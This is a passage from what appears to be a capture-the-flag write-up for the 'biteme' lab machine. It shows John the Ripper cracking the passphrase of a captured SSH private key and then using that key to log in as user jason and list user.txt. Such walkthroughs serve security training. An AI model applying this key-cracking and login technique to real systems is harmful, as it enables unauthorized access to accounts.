 ```
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1a2b3c4d         (jason_idrsa)     
1g 0:00:00:00 DONE (2022-08-24 17:36) 4.000g/s 20352p/s 20352c/s 20352C/s christina1..elsalvador
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
*we have a passphrase which it is 1a2b3c4d.
Try to login again.
Finally we login and we have user.txt.*

```
└─$ ssh jason@10.10.109.19 -i jason_idrsa                            
Enter passphrase for key 'jason_idrsa': 
Last login: Fri Mar  4 18:22:12 2022 from 10.0.2.2
jason@biteme:~$ ls -la
total 40
drwxr-xr-x 6 jason jason 4096 Nov 21  2021 .
drwxr-xr-x 4 root  root  4096 Sep 24  2021 ..
lrwxrwxrwx 1 jason jason    9 Sep 23  2021 .bash_history -> /dev/null
-rw-r--r-- 1 jason jason  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jason jason 3771 Apr  4  2018 .bashrc
drwx------ 2 jason jason 4096 Nov 13  2021 .cache
drwxr-x--- 2 jason jason 4096 Nov 21  2021 .config
drwx------ 3 jason jason 4096 Sep 23  2021 .gnupg
-rw-r--r-- 1 jason jason  807 Apr  4  2018 .profile
drwxr-xr-x 2 jason jason 4096 Sep 24  2021 .ssh
-rw-r--r-- 1 jason jason    0 Sep 23  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 jason jason   38 Sep 23  2021 user.txt

```

<img src="/assets/img/bitemeTHM/typing-laptop.gif" alt="" width="500" height="600">
